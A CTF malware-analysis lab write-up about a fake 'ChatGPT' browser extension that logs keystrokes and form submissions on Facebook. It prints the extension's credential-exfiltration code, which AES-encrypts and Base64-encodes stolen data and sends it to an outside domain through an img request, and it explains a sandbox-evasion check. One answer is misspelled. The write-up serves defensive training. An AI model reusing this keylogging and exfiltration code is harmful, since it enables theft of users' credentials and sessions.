 # FakeGPT Lab

Category: [Malware Analysis](https://cyberdefenders.org/blueteam-ctf-challenges/?categories=malware-analysis)

Tactics: [Credential Access](https://cyberdefenders.org/blueteam-ctf-challenges/?tactics=credential-access)[Collection](https://cyberdefenders.org/blueteam-ctf-challenges/?tactics=collection)[Command and Control](https://cyberdefenders.org/blueteam-ctf-challenges/?tactics=command-and-control)[Exfiltration](https://cyberdefenders.org/blueteam-ctf-challenges/?tactics=exfiltration)

Tools: [ExtAnalysis](https://cyberdefenders.org/blueteam-ctf-challenges/?tools=extanalysis)[CRX Viewer](https://cyberdefenders.org/blueteam-ctf-challenges/?tools=crx-viewer)

**Scenario**

Your cybersecurity team has been alerted to suspicious activity on your organization's network. Several employees reported unusual behavior in their browsers after installing what they believed to be a helpful browser extension named "ChatGPT". However, strange things started happening: accounts were being compromised, and sensitive information appeared to be leaking.

**Your task** is to perform a thorough analysis of this extension identify its malicious components.

#### Q1 Which encoding method does the browser extension use to obscure target URLs, making them more difficult to detect during analysis?

the extension uses **Base64** to obscure the target URL (`d3d3LmZhY2Vib29rLmNvbQ==` → `www.facebook.com`).\
It also **AES‑encrypts** stolen payloads and then encodes the ciphertext (IV + ciphertext) as Base64 before placing it into the `<img>` URL (and then `encodeURIComponent`).

#### Evidence from the snippet

* `const targets = [_0xabc1('d3d3LmZhY2Vib29rLmNvbQ==')];` — that string is a Base64 literal.\
  Example decode: `d3d3LmZhY2Vib29rLmNvbQ==` → `www.facebook.com`.
* `var _0x5eaf = function(_0x5fa1) { return btoa(_0x5fa1); };` — `btoa` is Base64 encoding (though that helper isn’t used here).
* `encryptPayload(...)` uses `CryptoJS.AES.encrypt(...)` and returns `...toString(CryptoJS.enc.Base64)` — AES ciphertext is converted to Base64.
* `sendToServer` builds an `<img>` whose `src` is `https://Mo.Elshaheedy.com/collect?data=` + `encodeURIComponent(encryptedData)` — covert exfiltration via image GET.

<figure><img src="https://97192284-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FgJzvqFCnTpw25MQy2FcH%2Fuploads%2Fk9zpR4a3pKWhfr0mK9Yy%2FScreenshot%202025-10-03%20at%203.12.03%E2%80%AFPM.png?alt=media&#x26;token=568d1c11-39a0-4b2e-979e-b0a4b3c862cf" alt=""><figcaption></figcaption></figure>

<figure><img src="https://97192284-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FgJzvqFCnTpw25MQy2FcH%2Fuploads%2FhY34Zg8Ti9t0ShKNovMY%2FScreenshot%202025-10-03%20at%203.07.53%E2%80%AFPM.png?alt=media&#x26;token=86e8e81c-9d99-4733-9000-b8f1abadceba" alt=""><figcaption></figcaption></figure>

Based on the context of malicious Chrome extensions like the one in your lab, the most common technique to **obscure target URLs** in the code is **Base64 encoding**.

* Extensions often take URLs or sensitive strings and encode them with Base64 before using them in `<img>` tags or network requests.
* This makes the URLs **less readable** in the source code and in network monitoring tools, hindering static and dynamic analysis.

So, the browser extension likely uses:

**Answer:** `Base64`&#x20;

#### Q2 Which website does the extension monitor for data theft, targeting user accounts to steal sensitive information?

The extension targets [**www.facebook.com**](http://www.facebook.com/) (i.e., Facebook) — the Base64 string `d3d3LmZhY2Vib29rLmNvbQ==` decodes to `www.facebook.com`.

**Answer:** `www.facebook.com`

#### Q3 Which type of HTML element is utilized by the extension to send stolen data?

<figure><img src="https://97192284-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FgJzvqFCnTpw25MQy2FcH%2Fuploads%2FKxYw9LqxJUcOItNBObG9%2FScreenshot%202025-10-03%20at%203.17.36%E2%80%AFPM.png?alt=media&#x26;token=20c770c3-dc63-4dd6-b219-f8d6b462aeb8" alt=""><figcaption></figcaption></figure>

This IIFE (immediately invoked function) is a malicious content script designed to run on web pages. It:

* Checks if the current page hostname matches a hardcoded target (`www.facebook.com` — stored as a Base64 string).
* Listens for form `submit` events and `keydown` events to capture credentials and keystrokes.
* Packages captured data as JSON, encrypts it with AES, Base64-encodes the result, and exfiltrates it by creating an `<img>` element whose `src` contains the encoded payload as a query parameter.

All captured data flows through these functions:

1. `exfiltrateCredentials(username, password)`
   * Builds a JSON payload: `{ user, pass, site }`
   * Encrypts it via `encryptPayload`
   * Sends it with `sendToServer(encryptedPayload)`
2. `exfiltrateData(type, data)`
   * Builds a JSON payload: `{ type, data, site }`
   * Encrypts and sends it the same way
3. `sendToServer(encryptedData)`

   ```js
   var img = new Image();
   img.src = 'https://Mo.Elshaheedy.com/collect?data=' + encodeURIComponent(encryptedData);
   document.body.appendChild(img);
   ```

   * Creates a new `<img>` element and sets its `src` to `https://Mo.Elshaheedy.com/collect?data=<encoded>`.
   * Appends the image to the document body, triggering a GET request to the attacker-controlled domain with the payload in the query string.

**Why `<img>`?** This covert channel uses browser image fetching to send a GET without needing XHR/fetch (less likely to trigger CORS preflight or obvious network signatures).

**Answer:**  **`<img>`**&#x20;

#### Q4 What is the first specific condition in the code that triggers the extension to deactivate itself?

<figure><img src="https://97192284-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FgJzvqFCnTpw25MQy2FcH%2Fuploads%2FHxW2CMEJKxaBGvCS9nQU%2FScreenshot%202025-10-03%20at%203.23.16%E2%80%AFPM.png?alt=media&#x26;token=54dbf492-112c-4609-b6ab-1fb78f2677bd" alt=""><figcaption></figcaption></figure>

**checks**

* It tests whether the browser reports **no installed plugins** (i.e., `navigator.plugins.length` equals 0).

**Why attackers use it**

* Many analysis sandboxes and headless browsers expose *no* installed plugins → `length === 0` is a cheap heuristic for “running in an automated/virtual environment”.
* Combined with other checks (e.g., `HeadlessChrome` in UA) it becomes an anti‑analysis gate: if true, the malware may disable or hide malicious behavior.

`navigator.plugins.length === 0` checks whether the browser reports **no installed plugins**.\
Attackers use it as a cheap sandbox/headless detection — many automated analysis environments show zero plugins, so malware can disable malicious behavior when this is true.\
Limitation: it produces false positives (legit browsers may show no plugins) and is easy to spoof.\
Quick bypass: override `navigator.plugins` in the page (e.g., define a fake non-empty plugins getter) to make the check return false.

**Answer:**  navigator.plugins.length === 0

#### Q5 Which event does the extension capture to track user input submitted through forms?

<figure><img src="https://97192284-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FgJzvqFCnTpw25MQy2FcH%2Fuploads%2FRfScEg0viiMGIW1vrRy4%2FScreenshot%202025-10-03%20at%203.26.44%E2%80%AFPM.png?alt=media&#x26;token=48364ecc-f826-4d55-8196-64c889d2ad87" alt=""><figcaption></figcaption></figure>

It listens for the **`submit`** event on `document` — capturing form submissions and extracting fields via `new FormData(event.target)`(e.g., `username`/`email` and `password`).

**Answer:** **`sumit`**

#### Q6 Which API or method does the extension use to capture and monitor user keystrokes?

<figure><img src="https://97192284-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FgJzvqFCnTpw25MQy2FcH%2Fuploads%2FGlGpxTBkQZxqm3vgR6vg%2FScreenshot%202025-10-03%20at%203.29.27%E2%80%AFPM.png?alt=media&#x26;token=8b91fc05-b6c8-4041-8eee-32489bcd2910" alt=""><figcaption></figcaption></figure>

The extension registers a **`keydown`** event listener on `document` via `document.addEventListener('keydown', ...)` and reads `event.key` to capture each keystroke.

**Answer:** **`keydown`**

#### Q7 What is the domain where the extension transmits the exfiltrated data?

<figure><img src="https://97192284-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FgJzvqFCnTpw25MQy2FcH%2Fuploads%2FbG1TbkuyopGoM9yx11Mw%2FScreenshot%202025-10-03%20at%203.32.55%E2%80%AFPM.png?alt=media&#x26;token=887ab750-b54b-4ef9-b915-627a007f8d37" alt=""><figcaption></figcaption></figure>

**Mo.Elshaheedy.com** (the extension sends data to `https://Mo.Elshaheedy.com/collect`).

```javascript
function sendToServer(encryptedData) {
        var img = new Image();
        img.src = 'https://Mo.Elshaheedy.com/collect?data=' + encodeURIComponent(encryptedData);
        document.body.appendChild(img);
```

**Answer: `Mo.Elshaheedy.com`**

#### Q8 Which function in the code is used to exfiltrate user credentials, including the username and password?

The function **`exfiltrateCredentials(username, password)`** — it builds the JSON payload, encrypts it with `encryptPayload(...)`, and sends it via `sendToServer(...)`.

<figure><img src="https://97192284-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FgJzvqFCnTpw25MQy2FcH%2Fuploads%2FspZFsJOOZUoO2jktDEC1%2FScreenshot%202025-10-03%20at%203.35.32%E2%80%AFPM.png?alt=media&#x26;token=cfced94a-a489-4155-b089-d582a3602bd3" alt=""><figcaption></figcaption></figure>

**Answer: `exfiltrateCredentials(username, password);`**

#### Q9 Which encryption algorithm is applied to secure the data before sending?

<figure><img src="https://97192284-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FgJzvqFCnTpw25MQy2FcH%2Fuploads%2FLHGOEIXvxG4IlTOmde34%2FScreenshot%202025-10-03%20at%203.37.48%E2%80%AFPM.png?alt=media&#x26;token=7930d5e1-2a7b-4c59-8450-2628839bb7df" alt=""><figcaption></figcaption></figure>

The extension uses **AES (Advanced Encryption Standard)** via **CryptoJS.AES.encrypt** to encrypt the data before exfiltration.

**Answer: AES**

#### Q10 What does the extension access to store or manipulate session-related data and authentication information?

The extension accesses **cookies** (via the `"cookies"` permission) to store or manipulate session-related data and authentication information.

<figure><img src="https://97192284-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FgJzvqFCnTpw25MQy2FcH%2Fuploads%2FhVWjdm160ORRIaNTpYaP%2FScreenshot%202025-10-03%20at%203.40.47%E2%80%AFPM.png?alt=media&#x26;token=40b7438c-8797-4a0c-a12d-d9330ac85a37" alt=""><figcaption></figcaption></figure>

**Answer:** `cookies`

[`https://cyberdefenders.org/blueteam-ctf-challenges/achievements/Napol/fakegpt/` ](https://cyberdefenders.org/blueteam-ctf-challenges/achievements/Napol/fakegpt/)
